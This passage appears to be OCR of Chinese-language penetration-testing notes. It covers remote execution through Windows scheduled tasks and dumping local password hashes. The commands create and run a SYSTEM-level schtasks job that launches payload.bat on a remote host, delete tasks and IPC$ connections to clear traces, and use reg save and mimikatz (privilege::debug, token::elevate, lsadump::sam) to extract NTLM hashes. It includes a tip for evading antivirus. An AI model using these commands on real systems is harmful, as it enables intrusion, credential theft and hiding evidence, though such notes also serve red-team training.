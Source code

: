 最后就是清理痕迹，清除计划任务：

	at \\192.168.52.138 7 /delete

（2）schtasks方式：

使用schtasks方式创建计划任务执行payload.bat，计划开机时启动，入下所示：
	
	# 需要建立IPC的用户拥有权限
	schtasks /create /s 192.168.52.138 /tn test /sc onstart /tr c:\payload.bat /ru system /f

然后就是启动计划任务：

	schtasks /run /s 192.168.52.138 /i /tn "test"

然后删除计划任务：

	schtasks /delete /s 192.168.52.138 /tn "test" /f

最后删除IPC连接：

	net use \\192.168.52.138\ipc$ /del /y

## 单机密码抓取
- 必须是System权限；
- 本地用户名、散列值和其他安全验证信息都保存在SAM文件中；
- SAM文件保存在 `C:\Windows\System32\config` 中；
- SAM文件是锁定的，不允许复制；
- 可以使用VSS卷影拷贝的方式将SAM文件复制出来；
- 可以使用工具将散列值和明文密码从内存中的lsass.exe进程或者SAM文件中导出；

主要介绍几种好用的方式：

（1）导出目标SAM和System，在本地获取NTLM Hash(防止mimikatz被杀)：

首先需要导出目标的SAM文件，命令如下：

	reg save hklm\sam sam.hive
	reg save hklm\system system.hive

在本地使用mimikatz读取SAM和System文件获取Hash，将前面在目标机器生成的sam.hive和system.hive导出到本地，在本地的mimikatz输入如下命令进行解析：

	lsadump::sam /sam:C:/Users/18148/Desktop/sam.hive /system:C:/Users/18148/Desktop/system.hive

（2）使用mimikatz在目标机直接读取SAM，导出Hash（不免杀）：

在目标机器上执行mimikatz，输入如下命令：

	# 提升权限
	privilege::debug
	# 将权限提升到System
	token::elevate
	# 读取本地SAM文件，导出NTLM Hash
	lsadump::sam
